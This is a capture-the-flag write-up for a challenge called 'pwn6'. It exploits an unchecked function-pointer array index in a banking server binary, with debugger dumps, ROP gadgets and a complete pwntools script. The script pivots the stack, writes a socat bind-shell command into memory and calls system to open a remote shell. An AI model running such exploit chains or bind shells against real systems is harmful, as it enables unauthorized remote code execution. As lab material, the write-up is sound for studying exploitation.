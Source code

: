 # pwn6 - Pwn

We're given two binaries, a server binary and a client binary aswell as a OpenVPN configuration file to be used when executing the exploit remotely.

Server protection:
```
CANARY    : ENABLED
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

Launching the server and connecting to it with the binary gives us the following output:

```
	 0. View Recent Login's With client
	 1. Login
Enter command to send to server...
```

Option 0 gives us:

```
Most recent login's from this client
1. 1337
2. 23646
...
```

and option 1 gives us a prompt to login.

When inspecting the client binary we can observe other options which presumably would be unlocked once successfully authenticated to the server.

When running the server, an empty 'Banking.sqlite' database is created which presumably would contain the credentials which would allow us to login with client.

Inspecting the login routine in the server binary with IDA eventually leads us to the `process_message` function.

<img src="https://i.imgur.com/heKlCKX.png">

Right off the bat there's a vulnerable printf call which seemed to be the thing to take advantage off in this challenge. With server binary having PIE disabled it would be quite easy to redirect some libc call to a ROP-chain.

However, the condition for even getting into the vulnerable printf branch is to send a corrupted message to the server which to my understanding seemed to drop the connection to the client so a new approach was needed.

Just before branching to the malformed message branch, there's a lookup for a function pointer depending on the value in the RDX register.

```
mov rax, [rax + rdx * 8 + 0x8]
```

The server determines what options a client can send depending on what function pointers exists in this array. If the array contains a null pointer at an index, it means that the user does not have access to this function. Initially I thought this array access was checked for out of bounds, but as it turns out, it was not. Thus we have a execution primitive to get RIP-control when the server is calling the function pointer later on.

Inspecting the messages sent by client we could create the following message to determine the value of RDX in the array lookup:

```python
def array_lookup(rdx, payload):
    return '\x0a' + '\x00' * 2 + '\x00' + pwn.p32(rdx - 4) + payload 
```

Due to the message structure, we're limited to only the lower 4 bytes of the RDX register. The payload parameter can take arbitrary data and will be stored on both the stack and the heap when the server is calling the fake function pointer.

## Exploit

```
[----------------------------------registers-----------------------------------]
RAX: 0x409070 (<pcacheMergeDirtyList+96>:	add    rsp,0x58)
RBX: 0x0 
RCX: 0x6d5f10 --> 0x5 
RDX: 0x7fffffffda70 --> 0x4 
RSI: 0x6d5f10 --> 0x5 
RDI: 0x7fffffffda70 --> 0x4 
RBP: 0x7fffffffd560 --> 0x7fffffffda50 --> 0x7fffffffddb0 --> 0x4a8720 (<__libc_csu_init>:	push   r15)
RSP: 0x7fffffffd540 --> 0x6d5f10 --> 0x5 
RIP: 0x404cf4 (<process_message+91>:	call   rax)
R8 : 0xfffffffffffffff0 
R9 : 0x0 
R10: 0x6d3010 --> 0x200010001000102 
R11: 0x6d6270 --> 0x680000000a ('\n')
R12: 0x404770 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffde90 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x404cea <process_message+81>:	mov    rdx,QWORD PTR [rbp-0x18]
   0x404cee <process_message+85>:	mov    rsi,rcx
   0x404cf1 <process_message+88>:	mov    rdi,rdx
=> 0x404cf4 <process_message+91>:	call   rax
   0x404cf6 <process_message+93>:	mov    DWORD PTR [rbp-0xc],eax
   0x404cf9 <process_message+96>:	mov    eax,DWORD PTR [rbp-0xc]
   0x404cfc <process_message+99>:	mov    esi,eax
   0x404cfe <process_message+101>:	mov    edi,0x4a886e
Guessed arguments:
arg[0]: 0x7fffffffda70 --> 0x4 
arg[1]: 0x6d5f10 --> 0x5 
arg[2]: 0x7fffffffda70 --> 0x4 
arg[3]: 0x6d5f10 --> 0x5 
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffd540 --> 0x6d5f10 --> 0x5 
0008| 0x7fffffffd548 --> 0x7fffffffda70 --> 0x4 
0016| 0x7fffffffd550 --> 0x0 
0024| 0x7fffffffd558 --> 0x6d6270 --> 0x680000000a ('\n')
0032| 0x7fffffffd560 --> 0x7fffffffda50 --> 0x7fffffffddb0 --> 0x4a8720 (<__libc_csu_init>:	push   r15)
0040| 0x7fffffffd568 --> 0x4052be (<handle_connections+1397>:	mov    rax,QWORD PTR [rbp-0x10])
0048| 0x7fffffffd570 --> 0x6d32c8 --> 0x6d1a80 --> 0x7000000003 
0056| 0x7fffffffd578 --> 0x7fffffffda70 --> 0x4 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
```
```
gdb-peda$ telescope $rsp
0000| 0x7fffffffd540 --> 0x6d5f10 --> 0x5 
0008| 0x7fffffffd548 --> 0x7fffffffda70 --> 0x4 
0016| 0x7fffffffd550 --> 0x0 
0024| 0x7fffffffd558 --> 0x6d6270 --> 0x680000000a ('\n')
0032| 0x7fffffffd560 --> 0x7fffffffda50 --> 0x7fffffffddb0 --> 0x4a8720 (<__libc_csu_init>:	push   r15)
0040| 0x7fffffffd568 --> 0x4052be (<handle_connections+1397>:	mov    rax,QWORD PTR [rbp-0x10])
0048| 0x7fffffffd570 --> 0x6d32c8 --> 0x6d1a80 --> 0x7000000003 
0056| 0x7fffffffd578 --> 0x7fffffffda70 --> 0x4 
gdb-peda$ telescope $rsp 20
0000| 0x7fffffffd540 --> 0x6d5f10 --> 0x5 
0008| 0x7fffffffd548 --> 0x7fffffffda70 --> 0x4 
0016| 0x7fffffffd550 --> 0x0 
0024| 0x7fffffffd558 --> 0x6d6270 --> 0x680000000a ('\n')
0032| 0x7fffffffd560 --> 0x7fffffffda50 --> 0x7fffffffddb0 --> 0x4a8720 (<__libc_csu_init>:	push   r15)
0040| 0x7fffffffd568 --> 0x4052be (<handle_connections+1397>:	mov    rax,QWORD PTR [rbp-0x10])
0048| 0x7fffffffd570 --> 0x6d32c8 --> 0x6d1a80 --> 0x7000000003 
0056| 0x7fffffffd578 --> 0x7fffffffda70 --> 0x4 
0064| 0x7fffffffd580 --> 0x680000000a ('\n')
0072| 0x7fffffffd588 ('A' <repeats 200 times>...)
```

Breaking on the call of the function pointer shows us that RSP is not pointing to our payload, so our first ROP-gadget has the pivot the stack to it. Fortunately, the server binary contains a lot of functions so finding suitable gadgets is quite easy. To pivot the stack we use the following gadget

```
   0x0000000000409070 <+96>:	add    rsp,0x58
   0x0000000000409074 <+100>:	ret 
```

which will RSP right on the payload.

The first idea was to just spawn a shell, which would be easy as libc `system` existed in PLT. There wasn't however any reference to a `/bin/sh` string so a write-primtive was required to write it somewhere in memory. The following gadgets does the trick

```
0x00000000004021ce <+160>:	pop    rdi
0x00000000004021cf <+161>:	ret

0x0000000000409073 <+99>:	pop    rax
0x0000000000409074 <+100>:	ret

0x0000000000408e46 <+118>:	mov    QWORD PTR [rax+0x10],rdi
0x0000000000408e4a <+122>:	ret
```

This worked, but as this isn't a regular challenge where stdin and stdout is piped to the network, this would only spawn a shell on the server-side and be completely useless on the client.

Had some ideas trying to pipe stdout and stdin to the network socket but it seemed rather complicated. The final idea was to hope that the server had `socat` available and simply launch `/bin/sh` over some random port and then simply connect to it.

So in short, pass `socat TCP-LISTEN:1337,reuseaddr,fork EXEC:"/bin/sh"` to `system`.

To my own surprise it did work and connecting to the server with `nc` gave us the flag.

```
gigem{dbff08334bfc2ae509f83605e4285b0e}
```

```python
import pwn

SYSTEM_PLT = 0x401a10
STACK_PIVOT = 0x409070
POP_RDI = 0x4021ce
MOV_RAX_RDI = 0x408e46
BINSH = 0x006d1000
POP_RAX = 0x409073
RET = 0x401e7c
POP_RSI = 0x401e89

def write_what_where(what, where):
    chain = ''
    for i in range(0, len(what) - 8, 8):
        chain += pwn.p64(POP_RDI)
        chain += what[i:i+8]
        chain += pwn.p64(POP_RAX)
        chain += pwn.p64(where - 0x10 + i)
        chain += pwn.p64(MOV_RAX_RDI)
    
    remainder = len(what) % 8
    extra = what[-remainder:]
    extra += (8 - len(extra)) * '\x00'
    chain += pwn.p64(POP_RDI)
    chain += extra
    chain += pwn.p64(POP_RAX)
    chain += pwn.p64(where - 0x10 + len(what) - remainder)
    chain += pwn.p64(MOV_RAX_RDI)

    return chain

def array_lookup(rdx, payload):
    return '\x0a' + '\x00' * 2 + '\x00' + pwn.p32(rdx - 4) + payload 

p = pwn.remote('172.30.0.2', 6210)
#p = pwn.remote('127.0.0.1', 6210)

rop  = pwn.p64(STACK_PIVOT)
rop += write_what_where('socat TCP-LISTEN:1337,reuseaddr,fork EXEC:"/bin/sh"\x00', BINSH)
rop += pwn.p64(POP_RDI)
rop += pwn.p64(BINSH)
rop += pwn.p64(RET) * 3 #Align the heap correctly
rop += pwn.p64(SYSTEM_PLT)

p.send(array_lookup(0x6c, rop))
p.interactive()
```